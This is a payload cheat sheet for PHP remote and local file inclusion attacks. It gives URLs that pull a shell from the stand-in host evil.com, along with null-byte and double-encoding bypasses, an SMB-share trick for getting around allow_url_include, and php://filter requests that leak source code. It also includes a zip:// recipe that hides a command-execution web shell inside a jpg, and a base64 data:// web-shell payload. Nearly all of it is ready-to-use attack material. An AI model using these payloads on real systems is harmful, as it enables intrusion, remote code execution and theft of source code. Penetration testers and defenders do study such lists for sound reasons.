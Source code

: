 # RFI
In order for an RFI to be successful, two functions in PHP’s configuration file need to be set. <b>allow_url_fopen</b> and <b>allow_url_include</b> both need to be ‘On’.
### Basic RFI
Most of the filter bypasses from LFI section can be reused for RFI.
```txt
http://example.com/index.php?page=http://evil.com/shell.txt
```

### Null byte
```txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
```
### Double encoding
```txt
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```
### Bypass allow_url_include
When <b>allow_url_include</b> and <b>allow_url_fopen</b> are set to Off. It is still possible to include a remote file on Windows box using the smb protocol.
1. Create a share open to everyone
2. Write a PHP code inside a file : shell.php
3. Include it http://example.com/index.php?page=\\10.0.0.1\share\shell.php


# LFI / RFI using wrappers
### Wrapper php://filter
The part "php://filter" is case insensitive
```txt
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

### Wrapper zip://
```txt
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### Wrapper data://
```txt
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
